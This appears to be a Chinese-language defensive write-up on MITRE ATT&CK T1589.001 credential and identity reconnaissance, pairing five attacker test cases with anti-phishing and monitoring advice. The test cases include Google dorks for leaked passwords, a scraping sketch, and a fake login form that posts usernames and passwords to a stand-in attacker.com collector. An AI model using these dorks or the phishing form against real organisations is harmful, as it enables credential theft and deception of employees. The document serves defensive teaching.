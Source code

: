 # T1589-001-收集目标组织身份信息-凭证

## 描述

攻击者通过收集目标组织身份信息-凭证（T1589.001）获取受害者的身份数据（如员工姓名、电子邮件地址、用户名、密码等），为后续攻击（如钓鱼 T1566、有效账号 T1078 或凭证爆破 T1110）提供情报。这些操作通常在攻击者的外部环境（如自己的主机、云服务）进行，例如通过社交媒体爬取、搜索引擎挖掘（如 Google Hacking）、网络情报工具（如 Shodan、FOFA）、钓鱼攻击或公开数据泄露（如密码数据库）收集凭证。由于这些活动发生在目标组织视野之外，直接检测较为困难，但凭证可能被用于后续的初始访问或横向移动。本文档聚焦于 Windows 环境下的凭证收集案例和防御建议。

## 测试案例

#### 测试案例 1：Google Hacking 搜索凭证
**关联技术**：T1589.001（凭证收集）  
**说明**：  
- 使用 Google Hacking 语法搜索公开暴露的凭证或敏感信息，通常在攻击者自己的设备上执行。  
**示例操作**：
```bash
:: 在浏览器中输入以下 Google 搜索语法
intext:password filetype:txt site:*.org
intext:username password site:pastebin.com
intext:"email password" site:*.gov
```
**输出示例**：
```
- 搜索结果可能包含公开的文本文件或 Pastebin 页面，泄露用户名和密码。
- 示例：user:admin password:Admin2025
- 示例：email:john.doe@example.org password:Pass1234
```
**说明**：  
- 攻击者利用搜索引擎发现目标组织的凭证或敏感信息。  
- 关联 T1589.001：通过公开数据收集身份信息。

#### 测试案例 2：社交媒体爬取员工信息
**关联技术**：T1589.001（凭证收集）  
**说明**：  
- 通过 LinkedIn、Twitter 或其他社交媒体平台收集员工姓名、职位、电子邮件等信息，通常使用爬虫工具或 OSINT 框架。  
**示例操作**（Python 伪代码）：
```python
import requests
url = "https://www.linkedin.com/company/example-org/people/"
response = requests.get(url)
# 解析 HTML，提取员工信息
# 输出：姓名、职位、可能的电子邮件
```
**输出示例**：
```
Name: John Doe, Title: IT Manager, Email: john.doe@example.org
Name: Jane Smith, Title: HR Director, Email: jane.smith@example.org
```
**说明**：  
- 收集员工身份信息，用于定制钓鱼攻击。  
- 关联 T1589.001：通过社交媒体获取凭证相关数据。

#### 测试案例 3：钓鱼模拟收集凭证
**关联技术**：T1589.001（凭证收集）、T1566（钓鱼）  
**说明**：  
- 攻击者发送钓鱼邮件或创建伪造登录页面，诱导目标输入凭证，通常在外部服务器上执行。  
**示例操作**：
- 发送伪造邮件，包含链接到攻击者控制的登录页面：
  ```
  Subject: 紧急：请验证您的账号
  Body: 请点击以下链接更新您的密码：http://fake-example.com/login
  ```
- 伪造登录页面（HTML 伪代码）：
  ```html
  <form action="http://attacker.com/collect" method="POST">
      用户名: <input type="text" name="username">
      密码: <input type="password" name="password">
      <input type="submit" value="登录">
  </form>
  ```
**输出示例**（攻击者服务器日志）：
```
POST /collect HTTP/1.1
username=johndoe&password=Pass1234
```
**说明**：  
- 通过钓鱼攻击收集用户凭证。  
- 关联 T1589.001：通过钓鱼获取凭证。

#### 测试案例 4：查询公开数据泄露
**关联技术**：T1589.001（凭证收集）  
**说明**：  
- 使用公开数据泄露数据库（如 Have I Been Pwned）查询目标邮箱的泄露凭证，通常在攻击者设备上通过 API 或网站执行。  
**示例操作**：
```bash
:: 在浏览器访问
https://haveibeenpwned.com/
:: 输入目标邮箱：john.doe@example.org
```
**输出示例**：
```
Breaches:
- LinkedIn (2012-05-05)
- Adobe (2013-10-04)
```
**说明**：  
- 检查目标邮箱是否出现在数据泄露中，可能获取密码。  
- 关联 T1589.001：通过公开泄露获取凭证。

#### 测试案例 5：使用 OSINT 工具收集身份信息
**关联技术**：T1589.001（凭证收集）  
**说明**：  
- 使用开源情报（OSINT）工具（如 Maltego、SpiderFoot）收集目标组织的身份信息，包括邮箱、用户名或关联账号。  
**示例操作**：
- 在 Maltego 中：
  - 输入目标域名：example.org
  - 运行变换（Transform）：提取邮箱、社交媒体账号
**输出示例**：
```
Domain: example.org
Emails: john.doe@example.org, jane.smith@example.org
Twitter: @JohnDoe, @JaneSmith
```
**说明**：  
- 整合公开数据，构建目标身份画像。  
- 关联 T1589.001：通过 OSINT 获取凭证相关信息。

## 建议

1. **防御措施**：
   - **员工培训**：开展反钓鱼和隐私保护培训，提高员工对伪造邮件和社交工程的警惕性。
   - **数据最小化**：限制员工在社交媒体和公开网站上暴露的身份信息（如邮箱、职位）。
   - **邮件网关**：部署反钓鱼网关，检测伪造邮件和可疑链接。
   - **密码策略**：强制使用强密码，定期更换，避免密码重用。
   - **多因素认证（MFA）**：为所有账号启用 MFA，降低凭证被盗风险。
2. **后续阶段监控**：
   - 监控钓鱼攻击（T1566），如异常登录尝试（事件 ID 4624）或可疑邮件点击。
   - 检测有效账号使用（T1078），如非预期时间/地点的登录。
   - 使用 EDR 或 SIEM 关联异常行为，如凭证爆破（T1110）或外部 API 请求。
3. **外部情报监控**：
   - 定期检查公开数据泄露（如 Have I Been Pwned），通知员工更新受损凭证。
   - 监控社交媒体和暗网，识别针对组织的身份信息收集。
   - 与威胁情报服务合作，获取针对组织的侦察预警。
4. **降低误报**：
   - 区分合法的员工行为（如访问 LinkedIn）与攻击者的爬取活动。
   - 结合上下文分析，如异常访问时间、来源 IP 或高频查询。

## 参考推荐

- MITRE ATT&CK:T1589-001  
  <https://attack.mitre.org/techniques/T1589/001/>
